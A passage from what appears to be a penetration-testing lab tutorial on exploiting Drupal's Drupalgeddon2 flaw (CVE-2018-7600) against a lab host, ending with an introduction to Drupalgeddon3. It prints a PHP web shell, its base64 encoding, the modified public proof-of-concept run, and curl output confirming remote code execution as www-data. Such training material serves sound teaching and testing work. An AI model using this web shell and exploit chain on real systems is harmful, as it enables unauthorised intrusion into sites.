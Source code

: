 `confirming`
```shell-session
curl -s http://drupal-dev.inlanefreight.local/hello.txt

;-)
```
Now let's modify the script to gain remote code execution by uploading a malicious PHP file.

```php
<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>
```

`appending`
```shell-session
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K
```

Next, let's replace the `echo` command in the exploit script with a command to write out our malicious PHP script.

```shell-session
 echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```

`Next, run the modified exploit script to upload our malicious PHP file.`
```shell-session
python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/mrb3n.php
```

Finally, we can confirm remote code execution using `cURL`.

```shell-session
curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Drupalgeddon3

[Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3) is an authenticated remote code execution vulnerability that affects [multiple versions](https://www.drupal.org/sa-core-2018-004) of Drupal core. It requires a user to have the ability to delete a node. We can exploit this using Metasploit, but we must first log in and obtain a valid session cookie.
